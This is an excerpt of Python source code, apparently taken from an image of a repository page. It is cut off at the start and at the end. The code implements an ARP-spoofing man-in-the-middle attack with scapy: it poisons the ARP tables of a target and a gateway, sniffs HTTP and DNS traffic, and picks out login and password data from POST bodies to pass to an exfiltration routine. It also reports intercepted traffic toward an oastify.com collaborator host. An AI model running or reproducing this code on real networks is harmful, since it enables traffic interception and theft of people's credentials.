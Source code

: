 ```python
            # Tell target we are the gateway
            target_arp = scapy.ARP(
                op=2, pdst=self.target_ip, hwdst=self.target_mac,
                psrc=self.gateway_ip
            )
            
            # Tell gateway we are the target
            gateway_arp = scapy.ARP(
                op=2, pdst=self.gateway_ip, hwdst=self.gateway_mac,
                psrc=self.target_ip
            )
            
            scapy.send(target_arp, verbose=False)
            scapy.send(gateway_arp, verbose=False)
            
            time.sleep(2)
    
    def capture_traffic(self, packet):
        """Analyze intercepted traffic"""
        try:
            # Monitor HTTP traffic
            if packet.haslayer(scapy.HTTPRequest):
                host = packet[scapy.HTTPRequest].Host.decode()
                path = packet[scapy.HTTPRequest].Path.decode()
                method = packet[scapy.HTTPRequest].Method.decode()
                
                print(f"🌐 HTTP {method}: {host}{path}")
                
                # Check for target site traffic
                if "oastify.com" in host:
                    print(f"🎯 Target site intercepted: {method} {host}{path}")
                    self.test_traffic_modification(packet)
                
                # Extract credentials from POST data
                if method == "POST" and packet.haslayer(scapy.Raw):
                    post_data = packet[scapy.Raw].load.decode(errors='ignore')
                    if any(keyword in post_data.lower() for keyword in ['username', 'password', 'login']):
                        print(f"🔑 Credentials intercepted: {post_data[:100]}...")
                        self.exfiltrate_credentials(post_data)
            
            # Monitor DNS queries
            elif packet.haslayer(scapy.DNSQR):
                query = packet[scapy.DNSQR].qname.decode()
                print(f"🌐 DNS Query: {packet[scapy.IP].src} -> {query}")
                
                # Test DNS manipulation for target site
                if "oastify.com" in query:
                    print(f"🎯 Target site DNS query intercepted")
                    self.test_dns_manipulation(packet)
        
        except Exception as e:
            pass  # Ignore packet parsing errors
    
    def test_traffic_modification(self, packet):
        """Test traffic modification capabilities"""
        try:
            # Send notification to target site about intercepted traffic
            intercept_data = {
                'timestamp': time.time(),
                'source_ip': packet[scapy.IP].src,
                'destination_ip': packet[scapy.IP].dst,
                'intercepted_host': packet[scapy.HTTPRequest].Host.decode(),
```